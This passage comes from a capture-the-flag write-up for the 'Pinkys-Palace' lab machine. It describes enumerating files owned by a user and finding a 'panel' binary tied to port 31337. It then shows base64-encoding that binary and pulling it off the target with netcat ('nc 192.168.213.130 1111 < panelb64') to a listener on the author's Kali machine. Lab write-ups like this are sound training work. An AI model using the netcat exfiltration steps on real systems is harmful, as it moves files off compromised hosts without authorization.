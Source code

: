 
    find / -user demon

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203333338_image.png)


both directory `/daemon` and `/daemon/panel` worth investigating.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203445583_image.png)


`panel` seems to be a binary with execute

    file panel

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203470864_image.png)


after running `panel` I received a 

    demon@Pinkys-Palace:/daemon$ ./panel
    ....
    [-] binding to socket
    ...

this repeated over and over as if its trying to connect to a port. Thinking back to our open port `31337` might have something to do with this. With no actual way to disassemble the binary remotely we need to send the file locally.

Base64 encode file before sending to local:

    base64 panel > panelb64

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553211441242_image.png)


Send file from Remote to Local:
Local Kali:

    nc -nlvp 1111 > panelb64

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553211507743_image.png)


Remote System:

    nc 192.168.213.130 1111 < panelb64

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553211478020_image.png)


Decode Base64 `panelb64`

    base64 -d panelb64 > panel

add chmod

    chmod +x panel


----------
